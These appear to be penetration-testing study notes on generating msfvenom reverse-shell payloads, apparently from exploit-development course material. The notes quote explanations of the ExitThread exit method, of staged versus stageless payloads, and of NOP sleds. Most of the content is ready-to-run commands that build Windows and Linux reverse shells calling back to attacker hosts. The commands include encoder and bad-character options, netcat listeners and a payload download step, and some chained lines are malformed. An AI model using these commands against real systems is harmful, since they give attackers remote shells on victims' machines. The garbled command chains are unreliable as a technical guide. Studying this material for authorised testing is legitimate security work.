 ### Msfvenom
msfvenom --list payloads  
msfvenom --list platforms  
msfvenom --list formats  

msfvenom -p linux/x86/shell_reverse_tcp --list-options  

msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.48.2 LPORT=443 -f elf > shell.elf && nc -lvnp 443 && python -c 'import pty;pty.spawn("/bin/bash")'; && export TERM=xterm  

msfvenom -p windows/shell_reverse_tcp LHOST=192.168.48.2 LPORT=443 -f exe > windows_reverse.exe && powershell && Invoke-WebRequest -Uri http://192.168.48.2/windows_reverse.exe -OutFile windows_reverse.exe && nc -lvnp 443  

msfvenom -a x86 --platform Windows -p windows/shell_reverse_tcp LHOST=192.168.119.190 LPORT=443 -f py -v shellcode -e x86/shikata_ga_nai -b "\x00\x0a\x1a\x2f\x95\xa7"  

msfvenom -a x86 -p windows/exec cmd=cmd.exe -e x86/shikata_ga_nai -f c -n 10 -b "\x00\x0a\x0d"(non-network-based command execution payloads)(it has service handles the string to raw bytes conversion)  

msfvenom -a x86 -p windows/exec cmd=cmd.exe -e x86/shikata_ga_nai -f raw -n 10 -b "\x00\x0a\x0d"(non-network-based command execution payloads)(it has no service handles the string to raw bytes conversion)  

### Improving the Exploit
> The default exit method of Metasploit shellcode following its execution is the ExitProcess API. This exit method will shut down the whole web service process when the reverse shell is terminated, effectively killing the SyncBreeze service and causing it to crash.
If the program we are exploiting is a threaded application, and in this case it is, we can try to avoid crashing the service completely by using the ExitThread API instead, which will only terminate the affected thread of the program. This will make our exploit work without interrupting the usual operation of the SyncBreeze server, and will allow us to repeatedly exploit the server and exit the shell without bringing down the service.
To instruct msfvenom to use the ExitThread method during shellcode generation, we can use the EXITFUNC=thread option as shown in the command below:

msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.4 LPORT=443 EXITFUNC=thread(this parameter can't be put behind all other parameters-tested) -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d"  

### staged vs stageless
> The shells shown in this listing all have similar names. The key difference here is the separation after the architecture, of the payload names via a '/' or '_'. The payloads that are separated with a '/' character are staged payloads.6 Staged payloads begin the execution process with a small portion of the code that doesn't contain the full payload.Instead, it initiates the payload download from the attacking host after it begins execution. The benefit of a staged payload is that the size of the file is smaller. This may help with upload limitations on a target host. We will not be working with staged payloads, since that would require us to work with Metasploit.Payloads separated by an underscore (_) are stageless payloads.7 Stageless payloads contain the full payload from MSFvenom and do not require any additional resources from the attacker after initial execution. These payloads are larger when they are produced but often don't require the use of Metasploit to obtain shell access.

### NOP sled
> As with other GetPC routines, those used by shikata_ga_nai have an unfortunate side-effect of writing some data at and around the top of the stack. This eventually mangles at least a couple of bytes close to the address pointed at by the ESP register. Unfortunately, this small change on the stack is a problem for us because the decoder starts exactly at the address pointed to by the ESP register. In short, the GetPC routine execution ends up changing a few bytes of the decoder itself (and potentially the encoded shellcode), which eventually fails the decoding process and crashes the target process.One method to avoid this issue is to adjust ESP backwards, making use of assembly instructions such as DEC ESP, SUB ESP, 0xXX, before executing the decoder. Alternatively, we could create a wide "landing pad" for our JMP ESP, such that when execution lands anywhere on this pad, it will continue on to our payload. This may sound complicated, but we simply precede our payload with a series of No Operation (or NOP) instructions, which have an opcode value of 0x90. As the name suggests, these instructions do nothing, and simply pass execution to the next instruction. Used in this way, these instructions, also defined as a NOP sled or NOP slide, will let the CPU "slide" through the NOPs until the payload is reached.In both cases, by the time the execution reaches the shellcode decoder, the stack pointer points far enough away from it so as to not corrupt the shellcode when the GetPC routine overwrites a few bytes on the stack.
